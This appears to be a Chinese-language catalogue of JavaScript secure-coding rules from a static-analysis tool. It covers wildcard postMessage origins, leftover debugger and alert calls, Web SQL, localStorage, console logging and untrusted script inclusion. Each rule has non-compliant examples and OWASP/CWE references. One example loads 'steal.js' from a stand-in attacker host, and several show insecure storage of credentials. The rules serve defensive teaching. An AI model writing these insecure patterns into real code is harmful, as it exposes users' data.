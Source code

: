 ## 应谨慎限制跨文档消息传递域

HTML5增加了向其他域提供的文档发送消息的功能。根据规格：

> 作者不应在包含任何机密信息的邮件中的targetOrigin参数中使用通配符关键字（*），否则无法保证邮件仅传递给其预期的收件人。

为了降低将敏感信息发送到从恶意或未知域提供的文档的风险，每次使用Window.postMessage时，此规则都会引发问题。

**不合规的代码示例**
```
var myWindow = document.getElementById('myIFrame').contentWindow;
myWindow.postMessage(message, "*"); // 不合规; how do you know what you loaded in 'myIFrame' is still there?
```

**参考**
  * OWASP Top 10 2017 Category A7 - Cross-Site Scripting (XSS)


## 不应使用调试器语句

调试器语句可以放在过程中的任何位置以暂停执行。使用调试器语句类似于在代码中设置断点。根据定义，必须绝对从源代码中删除此类语句，以防止任何意外行为或增加生产中的攻击漏洞。

**不合规的代码示例**
```
for (i = 1; i<5; i++) {
  // Print i to the Output window.
  Debug.write("loop index is " + i);
  // Wait for user to resume.
  debugger;
}
```

**合规解决方案**
```
for (i = 1; i<5; i++) {
  // Print i to the Output window.
  Debug.write("loop index is " + i);
}
```

**参考**
  * [MITRE, CWE-489](http://cwe.mitre.org/data/definitions/489.html) - Leftover Debug Code
  * OWASP Top 10 2017 Category A3 - Sensitive Data Exposure


## 不应使用 alert(...)

alert(...)以及confirm(...)和prompt(...)对于开发期间的调试很有用，但在生产模式下，这种弹出窗口可能会将敏感信息暴露给攻击者，并且永远不应该显示。

**不合规的代码示例**
```
if(unexpectedCondition) {
  alert("Unexpected Condition");
}
```

**参考**
  * [MITRE, CWE-489](http://cwe.mitre.org/data/definitions/489.html) - Leftover Debug Code
  * OWASP Top 10 2017 Category A3 - Sensitive Data Exposure


## 不应使用Web SQL数据库

Web SQL数据库标准从未见过光明。它首先制定，然后由W3C弃用，并且仅在某些浏览器中实现。（Firefox或IE不支持。）

此外，使用Web SQL数据库会引起安全问题，因为您只需要其名称即可访问此类数据库。

**不合规的代码示例**
```
var db = window.openDatabase("myDb", "1.0", "Personal secrets stored here", 2*1024*1024);  // 不合规
```


## 不应使用本地存储

会话存储和本地存储是HTML 5的功能，允许开发人员轻松存储客户端的兆字节数据，而不是4Kb cookie可以容纳的数据。尽管在客户端加速应用程序非常有用，但以这种方式存储敏感信息可能会很危险，因为默认情况下数据未加密，并且页面上的任何脚本都可以访问它。

使用localStorage和sessionStorageAPI 时，此规则会引发问题。

**不合规的代码示例**
```
localStorage.setItem("login", login); // 不合规
sessionStorage.setItem("sessionId", sessionId); // 不合规
```

**参考**
  * OWASP Top 10 2017 Category A3 - Sensitive Data Exposure
  * [Packet Storm Security](https://dl.packetstormsecurity.net/papers/attack/HTML5AttackVectors_RafayBaloch_UPDATED.pdf) - HTML 5 Modern Day Attack And Defence Vectors


## 不应包含不受信任的内容

从不受信任的来源中包含您网站中的内容可能会将您的用户暴露给攻击者，甚至会破坏您自己的网站。因此，此规则会为每个非相对URL引发问题。

**不合规的代码示例**
```
function include(url) {
  var s = document.createElement("script");
  s.setAttribute("type", "text/javascript");
  s.setAttribute("src", url);
  document.body.appendChild(s);
}
include("http://hackers.com/steal.js")  // 不合规
```

**参考**
  * [MITRE, CWE-829](http://cwe.mitre.org/data/definitions/829) - Inclusion of Functionality from Untrusted Control Sphere
  * OWASP Top 10 2017 Category A1 - Injection
  * [SANS Top 25](https://www.sans.org/top25-software-errors/#cat2) - Risky Resource Management


## 不应使用控制台日志记录

调试语句在开发过程中始终有用。但是将它们包含在生产代码中 - 特别是在运行客户端的代码中 - 并且存在无意中暴露敏感信息，减慢浏览器速度，甚至为某些用户错误输出网站的风险。

```
console.log(password_entered); // 不合规
```

**参考**
  * OWASP Top 10 2017 Category A3 - Sensitive Data Exposure

